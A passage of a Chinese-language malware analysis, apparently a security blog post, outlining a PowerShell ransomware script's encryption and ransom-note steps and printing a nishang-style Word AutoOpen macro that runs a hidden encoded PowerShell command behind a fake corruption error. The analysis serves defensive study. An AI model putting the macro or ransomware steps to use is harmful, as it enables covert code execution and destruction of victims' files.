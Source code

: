 可见,脚本做了混淆处理,简单处理以后归纳出的脚本主要执行过程如下:

1.生成三个随机数,分别表示加密密钥、加密用的盐、UUID

[![](https://p3.ssl.qhimg.com/t014a1576c9d0413f60.png)](https://p3.ssl.qhimg.com/t014a1576c9d0413f60.png)

把上面生成随机数发送到服务器中保存

[![](https://p3.ssl.qhimg.com/t010185a1c4e4a8dd14.png)](https://p3.ssl.qhimg.com/t010185a1c4e4a8dd14.png)

2.用随机数生成加密容器

[![](https://p2.ssl.qhimg.com/t017fc7f4992df57166.png)](https://p2.ssl.qhimg.com/t017fc7f4992df57166.png)

[![](https://p3.ssl.qhimg.com/t01e3bb0194cc90b4da.png)](https://p3.ssl.qhimg.com/t01e3bb0194cc90b4da.png)

3.得到磁盘中的所有的指定后缀的文件

调用Get-PSDrive,得到所有文件名

$folder= gdr|where `{`$_.Free`}`|Sort-Object -Descending

[![](https://p5.ssl.qhimg.com/t0100f160ca66f6449a.png)](https://p5.ssl.qhimg.com/t0100f160ca66f6449a.png)

4.加密这些文件的前2048个字节后写回文件

[![](https://p5.ssl.qhimg.com/t010ece0247d2de35af.png)](https://p5.ssl.qhimg.com/t010ece0247d2de35af.png)

5.解码Base64得到提示勒索的html文件

[![](https://p5.ssl.qhimg.com/t0130a076d795a91081.png)](https://p5.ssl.qhimg.com/t0130a076d795a91081.png)

在html文件的尾部添加上赎回密钥用的UUID及当前时间

[![](https://p3.ssl.qhimg.com/t01f8cf158c5248793a.png)](https://p3.ssl.qhimg.com/t01f8cf158c5248793a.png)

**渗透测试**

此类样本大多使用网络上的nishang开源工具包生成的攻击文件。攻击文件以Word、Excel、CHM、LNK等格式的文件为载体,嵌入Payload,实现获得反弹Shell等功能,实现对系统的控制。

样本MD5:929d104ae3f02129bbf9fa3c5cb8f7a1

文件打开后,会显示文件损坏,用来迷惑用户,Word中的宏却悄然运行了。

[![](https://p2.ssl.qhimg.com/t01ec6948158dbc70cc.gif)](https://p2.ssl.qhimg.com/t01ec6948158dbc70cc.gif)

宏的内容为:



```
Sub AutoOpen()
Dim x
x = "powershell -window hidden -enc JAAxACA[……]APQA” _
&amp; "wB3AGUAcgBzAGgAZQBsAGwAIAAkADIAIAAkAGUAIgA7AH0A"
Shell ("POWERSHELL.EXE " &amp; x)
Dim title As String
title = "Critical Microsoft Office Error"
Dim msg As String
Dim intResponse As Integer
msg = "This document appears to be corrupt or missing critical rows in order to restore. Please restore this file from a backup."
intResponse = MsgBox(msg, 16, title)
Application.Quit
End Sub
```
